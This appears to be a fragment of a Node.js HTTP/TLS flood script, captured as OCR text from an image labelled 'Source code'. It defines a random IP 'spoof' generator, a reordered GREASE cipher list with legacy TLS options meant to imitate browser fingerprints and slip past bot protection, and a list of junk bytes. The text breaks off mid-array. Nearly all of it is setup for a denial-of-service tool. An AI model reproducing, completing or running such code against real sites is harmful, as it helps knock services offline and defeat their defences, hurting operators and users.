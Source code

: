 const ip_spoof = () => {
  const getRandomByte = () => {
    return Math.floor(Math.random() * 255);
  };
  return `${getRandomByte()}.${getRandomByte()}.${getRandomByte()}.${getRandomByte()}`;
};

const spoofed = ip_spoof();

const defaultCiphers = crypto.constants.defaultCoreCipherList.split(":");
const ciphers = "GREASE:" + [
    defaultCiphers[2],
    defaultCiphers[1],
    defaultCiphers[0],
    ...defaultCiphers.slice(3)
].join(":");

const sigalgs = "ecdsa_secp256r1_sha256:rsa_pss_rsae_sha256:rsa_pkcs1_sha256:ecdsa_secp384r1_sha384:rsa_pss_rsae_sha384:rsa_pkcs1_sha384:rsa_pss_rsae_sha512:rsa_pkcs1_sha512";

const ecdhCurve = "GREASE:x25519:secp256r1:secp384r1";

const secureOptions = 
crypto.constants.SSL_OP_NO_SSLv2 |
crypto.constants.SSL_OP_NO_SSLv3 |
crypto.constants.SSL_OP_NO_TLSv1 |
crypto.constants.SSL_OP_NO_TLSv1_1 |
crypto.constants.ALPN_ENABLED |
crypto.constants.SSL_OP_ALLOW_UNSAFE_LEGACY_RENEGOTIATION |
crypto.constants.SSL_OP_CIPHER_SERVER_PREFERENCE |
crypto.constants.SSL_OP_LEGACY_SERVER_CONNECT |
crypto.constants.SSL_OP_COOKIE_EXCHANGE |
crypto.constants.SSL_OP_PKCS1_CHECK_1 |
crypto.constants.SSL_OP_PKCS1_CHECK_2 |
crypto.constants.SSL_OP_SINGLE_DH_USE |
crypto.constants.SSL_OP_SINGLE_ECDH_USE |
crypto.constants.SSL_OP_NO_SESSION_RESUMPTION_ON_RENEGOTIATION;

const secureProtocol = "TLS_client_method";
const headers = {};

const secureContextOptions = {
    ciphers: ciphers,
    sigalgs: sigalgs,
    honorCipherOrder: true,
    secureOptions: secureOptions,
    secureProtocol: secureProtocol
};

const secureContext = tls.createSecureContext(secureContextOptions);

const nullHexs = [
    "\x00", 
    "\xFF", 
    "\xC2", 
    "\xA0",
    "\x82",
    "\x56",
    "\x87",
    "\x88",
    "\x27",
    "\x31",
    "\x18",
    "\x42",
    "\x17",
    "\x90",
    "\x14",
    "\x82",